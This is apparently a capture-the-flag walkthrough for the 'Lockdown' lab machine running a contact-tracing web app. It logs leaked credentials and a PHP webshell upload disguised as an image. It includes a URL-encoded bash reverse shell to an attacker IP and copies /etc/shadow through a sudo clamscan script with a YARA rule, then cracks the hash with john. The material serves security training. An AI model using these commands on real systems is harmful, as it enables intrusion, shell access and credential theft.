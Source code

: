 # Export
```bash
export IP="10.10.217.17"
export URL="http://10.10.217.17/FUZZ"
```

<hr>

# Credentials
+ MySQL: `cts:YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE`
+ Web: `admin:sweetpandemonium` (Leaked from Mysql database)
+ Local user: `cyrus:sweetpandemonium`

<hr>

# RCE
+ Upload a "php" image here: 
	+ http://contacttracer.thm/admin/?page=system_info
+ Check the `Network` tab of developer tool at `/login.php` to view the image location.

```bash
curl -s http://contacttracer.thm/uploads/1633297860_test.png.php\?cmd=whoami --output -                                                                                              23 ⨯
PNG

IHDPN   pHYs

            tIME(e\tEXtCommentCreated with The GIMPd%eIDATxKL]@܌DF.F&*B1ոQ"`+BJ
www-data
```

+ Reverse shell
```bash
$ curl -s http://contacttracer.thm/uploads/1633297860_test.png.php\?cmd=bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.4.1.61%2F80+0%3E%261%22

$ nc -nlvp 80                     
listening on [any] 80 ...
connect to [10.4.1.61] from (UNKNOWN) [10.10.139.26] 54572
bash: cannot set terminal process group (1046): Inappropriate ioctl for device
bash: no job control in this shell
www-data@lockdown:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<hr>

# Privilege Escalation
+ Access `cyrus` with the credentials -  `cyrus:sweetpandemonium`
+ `sudo`
```bash
cyrus@lockdown:~$ sudo -l
[sudo] password for cyrus: 
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
```

+ `/opt/scan/scan.sh`

```bash
cyrus@lockdown:~$ cat /opt/scan/scan.sh
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

+ Create a `root.yara` file with the following content:

```bash
cyrus@lockdown:~$ cat /var/lib/clamav/root.yara 
rule root_txt
{
        strings:
                $a = "www-data:*:"
        condition:
                $a
}
```

+ Trigger the rules

```bash
cyrus@lockdown:~$ sudo /opt/scan/scan.sh                                                        
[sudo] password for cyrus: 
Enter path: /etc   
/etc/ld.so.cache: OK                        
/etc/manpath.config: OK
/etc/rsyslog.conf: OK
...
----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 1
Scanned files: 83
Infected files: 4
Data scanned: 0.23 MB
Data read: 0.12 MB (ratio 1.97:1)
Time: 0.080 sec (0 m 0 s)
Start Date: 2021:10:04 01:04:25
End Date:   2021:10:04 01:04:25
```

+ The `/etc/shadow` file is copied to  `~/quarantine/shadow`

```bash
cyrus@lockdown:~$ cat quarantine/shadow
...
maxine:$6$/syu6s6/$Z5j6C61vrwzvXmFsvMRzwNYHO71NSQgm/z4cWQpDxMt3JEpT9FvnWm4Nuy.xE3xCQHzY3q9Q4lxXLJyR1mt320:18838:0:99999:7:::
...
```

+ Crack `shadow` password

```bash
$ unshadow maxine_passwd maxine_shadow > maxine_pass 
$ john --wordlist=/usr/share/wordlists/rockyou.txt maxine_pass
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tiarna           (maxine)
1g 0:00:00:17 DONE (2021-10-03 21:10) 0.05767g/s 4665p/s 4665c/s 4665C/s 070196..skyline123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
cyrus@lockdown:~$ su maxine
Password: 
maxine@lockdown:/home/cyrus$ sudo su -
root@lockdown:~# id
uid=0(root) gid=0(root) groups=0(root)
```

<hr>

# Nmap
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 27:1d:c5:8a:0b:bc:02:c0:f0:f1:f5:5a:d1:ff:a4:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA1Xdw3dCrCjetmQieza7pYcBp1ceBvVB6g1A/OU+bqoRSEfnKTHP0k5P2U1BbeciJTqflslP3IHh+py4jkWTkzbU80Mxokn2Kr5Qa5GKgrme4Q6GfQsQeeFpbLlIHs+eEBnCLY/J03iddkt6eukd3
VwZuRXHnEHl7G6Y1f0IEEzProg15iAtUTbS8OwPx+ZwdvXfJTWujUS+OzLLjQw5wPewCEK+TJHVM02H+5sO+dYBMC9rgiEnPe5ayP+nupAXMNYB9/p/gO3nj5h33SokY3RkXMFsijUJpoBnsDHNgo2Q41j9AB4txabzUQVFql30WO8l8azO4y/fWYYtU8Y
Cn                                   
|   256 ce:f7:60:29:52:4f:65:b1:20:02:0a:2d:07:40:fd:bf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGjTYytQsU83icaN6V9H1Kotl0nKVpR35o6PtyrWy9WjljhWaNr3cnGDUnd7RSIUOiZco3UL5+YC31sBdVy6b6o=
|   256 a5:b5:5a:40:13:b0:0f:b6:5a:5f:21:60:71:6f:45:2e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOHVz0M8zYIXcw2caiAlNCr01ycEatz/QPx1PpgMZqZN
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:                 
|   /:                                      
|     PHPSESSID:                                                                                                                                                                              
|_      httponly flag not set                                                                  
| http-methods:                                                                                
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Coronavirus Contact Tracer
```

<hr>

# Web Application
+ Domain: `contacttracer.thm`
+ Directory

```bash
admin                   [Status: 301, Size: 322, Words: 20, Lines: 10]
build                   [Status: 301, Size: 322, Words: 20, Lines: 10]
classes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
dist                    [Status: 301, Size: 321, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 17762, Words: 3840, Lines: 397]
libs                    [Status: 301, Size: 321, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 324, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 282, Words: 20, Lines: 10]
temp                    [Status: 301, Size: 321, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 324, Words: 20, Lines: 10]
```

+ `/admin/login.php` is vulnerable to SQL injection.
	+ https://packetstormsecurity.com/files/164005/COVID-19-Contact-Tracing-System-With-QR-Code-Scanning-1.0-SQL-Injection.html

+ Upload a "php" image here: http://contacttracer.thm/admin/?page=system_info/ → RCE
